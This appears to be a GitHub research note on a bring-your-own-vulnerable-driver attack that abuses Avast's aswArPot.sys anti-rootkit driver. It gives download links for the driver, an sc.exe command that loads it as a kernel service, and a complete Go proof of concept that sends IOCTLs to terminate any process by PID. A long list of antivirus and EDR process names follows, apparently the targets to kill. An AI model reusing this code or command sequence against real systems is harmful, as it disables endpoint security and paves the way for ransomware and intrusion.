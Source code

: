 # Research - BYOVD Avast! aswArPot  

https://www.bleepingcomputer.com/news/security/hackers-abuse-avast-anti-rootkit-driver-to-disable-defenses/  
https://www.trendmicro.com/en_us/research/22/e/avoslocker-ransomware-variant-abuses-driver-file-to-disable-anti-Virus-scans-log4shell.html  
https://cybersecuritynews.com/10-year-old-flaws-with-avast-and-avg/  
https://www.loldrivers.io/drivers/57fc510a-e649-4599-b83e-8f3605e3d1d9/

Related CVEs  
CVE-2022-26522  
CVE-2022-26523  
CVE-2021-40539  

Avast download  
https://archive.org/details/avast_free_antivirus_setup_offline_202010  

Path after install of 20.8.2432  
```  
C:\Program Files\Avast Software\Avast\setup\Inf\x64\aswArPot.sys
```  

aswArPot.sys  
https://file.io/FJbxjNwn10Jk  

Create service  
```  
sc.exe create aswSP_ArPot2 binPath= C:\<Path to driver>\aswArPot.sys type= kernel
```  

POC - https://github.com/timwhitez/killProcessPOC/blob/main/aswarpot.go  
```  
package main

import (
	"fmt"
	"golang.org/x/sys/windows"
	"os"
	"strconv"
	"unsafe"
)

func main() {
	if len(os.Args) != 2 {
		fmt.Println("./device.exe pid")
		return
	}

	if os.Args[1] == "-h" {
		fmt.Println("./device.exe pid")
		return
	}

	var volumename = fmt.Sprintf("\\\\.\\aswSP_ArPot2")
	hVolume, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	//var local_10 []byte
	var local_1c uint32
	windows.DeviceIoControl(hVolume, 0x7299c004, nil, 4, nil, 0, &local_1c, nil)

	volumename = fmt.Sprintf("\\\\.\\aswSP_Avar")
	local_c, _ := windows.CreateFile(windows.StringToUTF16Ptr(volumename), 0xc0000000, 0, nil, windows.OPEN_EXISTING, 0x80, 0)

	pid, _ := strconv.Atoi(os.Args[1])
	processID := uint32(pid)
	var local_2c uint32
	windows.DeviceIoControl(local_c, 0x9988c094, (*byte)(unsafe.Pointer(&processID)), 4, nil, 0, &local_2c, nil)

	windows.CloseHandle(hVolume)
	windows.CloseHandle(local_c)

}
```  

## Security Process Names  
```  
ERAAgent.exe
efwd.exe
SophosSafestore64.exe
PEFService.exe
mfefw.exe
mfemms.exe
mfewc.exe
McDiReg.exe
ProtectedModuleHost.exe
msmpeng.exe
ssdvagent.exe
avp.exe
swc_service.exe
bccavsvc.exe
psuaservice.exe
TmCCSF.exe
coreserviceshell.exe
repux.exe
vapm.exe
cylancesvc.exe
avpsus.exe
sbamtray.exe
sophoslivequeryservice.exe
epwd.exe
sophosmtrextension.exe
sophoscleanup.exe
iptray.exe
sentinelservicehost.exe
endpointbasecamp.exe
macompatsvc.exe
sepWscSvc64.exe
epab_svc.exe
mcsagent.exe
sophosfilescanner.exe
aswtoolssvc.exe
mfemactl.exe
avpsus.exe
avpui.exe
mcupdatemgr.exe
McAWFwk.exe
mfewch.exe
mfevtps.exe
McCSPServiceHost.exe
McPvTray.exe
MMSSHOST.exe
sophosui.exe
avastui.exe
paui.exe
bcc.exe
psuamain.exe
tesvc.exe
coreframeworkhost.exe
RepUtils.exe
updaterui.exe
cptrayui.exe
savservice.exe
SBAMSvc.exe
sophossafestore.exe
epam_svc.exe
sdcservice.exe
hostedagent.exe
idafserverhostservice.exe
sentinelhelperservice.exe
cetasvc.exe
macmnsvc.exe
sepagent.exe
responseservice.exe
mbcloudea.exe
SophosCleanM64.exe
easervicemonitor.exe
mfeann.exe
SophosNtpService.exe
ekrn.exe
MsMpEng.exe
QcShm.exe
mfeatp.exe
mfehcs.exe
mcshield.exe
Launch.exe
MclnstruTrack.exe
MfeAVSvc.exe
avastsvc.exe
ntrtscan.exe
svcgenerichost.exe
psanhost.exe
swi_service.exe
clientmanager.exe
repmgr.exe
tmlisten.exe
cptraylogic.exe
savapi.exe
vstskmgr.exe
wrsa.exe
efrservice.exe
scanhost.exe
sophosfimservice.exe
hostedagent.exe
SentinelAgentWorker.exe
cloudendpointservice.exe
logwriter.exe
SentinelUl.exe
dsa-connect.exe
mbamservice.exe
smcgui.exe
endpoint agent tray.exe
mctray.exe
SophosHealth.exe
eguiProxy.exe
agentsvc.exe
ModuleCoreService.exe
mfeesp.exe
mfeensppl
mfetp.exe
delegate.exe
McUICnt.exe
alsvc.exe
notifier.exe
sspservice.exe
pccntmon.exe
swi_fc.exe
ccsvchst.exe
remediationservice.exe
tmcpmadapter.exe
cpda.exe
savadminservice.exe
VipreNis.exe
ds_monitor.exe
dsa.exe
sbpimsvc.exe
sophososquery.exe
hmpalert.exe
sentinelagent.exe
sophos ui.exe
klnagent.exe
sentinelstaticenginescanner.exe
wscommunicator.exe
masvc.exe
sfc.exe
fsagentservice.exe
mcsclient.exe
sophosfs.exe
avwrapper.exe
```  


